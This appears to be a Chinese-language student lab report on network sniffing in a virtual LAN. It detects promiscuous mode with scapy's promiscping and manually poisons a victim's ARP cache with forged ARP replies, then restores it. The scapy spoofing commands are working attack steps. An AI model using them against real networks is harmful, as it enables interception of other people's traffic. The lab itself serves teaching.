

# 实验四 网络监听

### 实验环境

**拓扑图**


**网络配置**

- 网关
  
  `08 : 00 : 27 : 4b : a0 : 35/enp0s9`
  
  `172.16.111.1`
  
  

- 攻击者主机
  
  `08 : 00 : 27 : 15 : 1a : 80/eth0`
  
  `172.16.111.120`
  
  

- 受害者主机
  
  `08 : 00 : 27 : 79 : f4 : 83/eth0`
  
  `172.16.111.121`
  
  

### 准备工作

**安装scapy**

在攻击者主机上提前安装好 [scapy](https://scapy.net/)

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


### 实验一 检测局域网中的异常中断

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```


```bash
# 在攻击者主机上开启 scapy
sudo scapy
```


```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")

# 注意上述输出结果里应该没有出现 PROMISC 字符
```



```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```


再回到攻击者主机执行`promiscping` 命令

```bash
pkt = promiscping("172.16.111.121")
```


可以看出在混杂模式下，受害者主机收到了这个数据包

下面是用wireshark观察受害者主机的eth0网卡


可以发现收到了promiscping 命令发送的 ARP数据包

通过对比是否开启网卡的**混杂模式**的两种情况，发现发送出去的数据包在没有指定目的主机的MAC地址时，普通模式下发送不会成功

### 实验2 手工单步“毒化”目标主机ARP缓存

“毒化”过程均在攻击者主机的`scapy`交互式终端进行

- **获取当前局域网的网关MAC地址**
  
  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```
  
  

- **伪造网关的ARP响应包**
  
  ```bash
  # 准备发送给受害者主机
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:15:1a:80")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```
  
  
  
  网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

- **恢复受害者主机的ARP缓存记录**
  
  ```bash
  ## 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:11:54:d2", pdst="172.16.111.121", hwdst="08:00:27:79:f4:23")
  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
  
  
  在受害者主机上再次查看ARP缓存
  
  
  
  此时网关也能ping通

### 问题及解决

- scapy命令报错
  
  
  
  改为`sudo scapy`提高一下权限就解决了

- 无法发送伪造的ARP广播包
  
  首先得确保攻击者主机、网关、受害者主机在同一局域网内，我的网卡配置如下：
  
  | 主机    | 网卡                          |
  | ----- | --------------------------- |
  | 攻击者   | 内部网络（internet1）             |
  | 受害者主机 | 内部网络（internet1）             |
  | 网关    | 网络地址转换（NAT）、内部网络（internet1） |
  
  这里需要注意的是：攻击者主机尽量启用唯一网卡，原因是当有多张网卡时，发送ARP广播包时无法从内部网络（internet1）这张网卡发出，既然“发错了局域网”，就会导致无法到达受害者主机

### 参考资料

[How to Install and Use Wireshark on Ubuntu](https://linuxhint.com/install_wireshark_ubuntu/)

[scapy ARP](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)
